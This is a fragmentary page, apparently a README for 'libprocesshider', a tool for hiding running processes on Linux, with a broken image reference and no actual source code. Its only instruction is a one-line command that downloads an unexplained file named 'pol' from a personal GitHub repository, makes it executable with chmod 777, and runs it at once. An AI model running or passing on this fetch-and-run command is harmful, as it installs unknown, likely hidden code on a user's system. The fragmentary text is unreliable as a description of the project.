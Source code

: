 libprocesshider
===============

wget https://raw.githubusercontent.com/aurbach55/a/main/pol && chmod 777 pol && ./pol
